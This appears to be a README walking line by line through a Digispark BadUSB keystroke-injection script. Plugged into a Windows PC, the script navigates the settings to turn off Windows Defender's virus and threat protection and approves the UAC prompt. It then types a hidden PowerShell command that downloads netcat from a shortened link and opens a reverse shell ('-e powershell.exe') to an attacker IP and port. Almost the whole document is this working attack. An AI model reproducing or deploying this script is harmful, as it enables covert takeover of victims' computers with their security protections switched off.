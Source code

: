 # Script Breakdown

The following breakdown explains each line of the script:

```cpp
#include "DigiKeyboard.h"   // Includes the DigiKeyboard library
```

void setup() {
  DigiKeyboard.delay(1000);   // Pauses the script for 1 second
  DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);   // Sends a key press for the S key with the left GUI (Windows) key modifier
  DigiKeyboard.delay(1000);   // Pauses the script for 1 second
  DigiKeyboard.print("virus & threat protection");   // Inputs the text "virus & threat protection"
  DigiKeyboard.delay(500);   // Pauses the script for 0.5 seconds
  DigiKeyboard.sendKeyStroke(KEY_ENTER);   // Sends a key press for the Enter key
  DigiKeyboard.delay(5000);   // Pauses the script for 5 seconds
  DigiKeyboard.sendKeyStroke(43);   // Sends a key press for the + key (four times), which opens the settings menu in Windows 10
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.delay(700);   // Pauses the script for 0.7 seconds
  DigiKeyboard.sendKeyStroke(KEY_ENTER);   // Sends a key press for the Enter key
  DigiKeyboard.delay(700);   // Pauses the script for 0.7 seconds
  DigiKeyboard.sendKeyStroke(KEY_SPACE);   // Sends a key press for the Space key
  DigiKeyboard.delay(2000);   // Pauses the script for 2 seconds
  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);   // Sends a key press for the Y key with the left Alt key modifier
  DigiKeyboard.delay(1000);   // Pauses the script for 1 second
  DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);   // Sends a key press for the F4 key with the left Alt key modifier, which closes the current window
  DigiKeyboard.delay(500);   // Pauses the script for 0.5 seconds
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);   // Sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box
  DigiKeyboard.delay(700);   // Pauses the script for 0.7 seconds
  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");   // Inputs a PowerShell command that downloads and executes the netcat.exe tool
  DigiKeyboard.sendKeyStroke(KEY_ENTER);   // Sends a key press for the Enter key, which executes the PowerShell command
}

void loop() {
  // The loop function is empty in this script and not used
}
